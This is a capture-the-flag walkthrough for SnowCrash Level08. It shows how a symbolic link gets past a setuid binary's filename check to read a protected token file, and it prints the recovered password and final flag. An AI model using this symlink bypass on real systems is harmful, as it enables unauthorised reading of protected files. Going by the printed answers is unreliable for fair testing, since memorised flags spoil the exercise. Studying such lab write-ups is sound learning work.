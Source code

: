 # Level08

# context

after login with user `level08` to files apears in home dir
```
level08@SnowCrash:~$ ls
level08  token
level08@SnowCrash:~$
```

# steps to repreduce

first thing let's run the executeable and see what doing
```
level08@SnowCrash:~$ ./level08
./level08 [file to read]
level08@SnowCrash:~$
```

so this need a file as an arg, let's pass second file as arg

```
level08@SnowCrash:~$ ./level08 token
You may not access 'token'
level08@SnowCrash:~$
```

I don't have access to `token` file,

I need to create new file to test the output.
```
level08@SnowCrash:~$ chmod 777 . <== so I can create files in home dir
level08@SnowCrash:~$ echo "hello world" > test
level08@SnowCrash:~$ ./level08 test
hello world
level08@SnowCrash:~$
```

as you can see the file reads the content of the file and print it.
so I need a way so i can read the `token` file.

one of the methods I want to use is to create Symbolic Link to the `token` file so I can read it
```
level08@SnowCrash:~$ ln -s token getflag
level08@SnowCrash:~$
```

now let's pass the link to `level08` file
```
level08@SnowCrash:~$ ./level08 getflag
quif5eloekouj29ke0vouxean
level08@SnowCrash:~$
```
this is the token of `flag08`
```
level08@SnowCrash:~$ su flag08
Password:
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
flag08@SnowCrash:~$
```
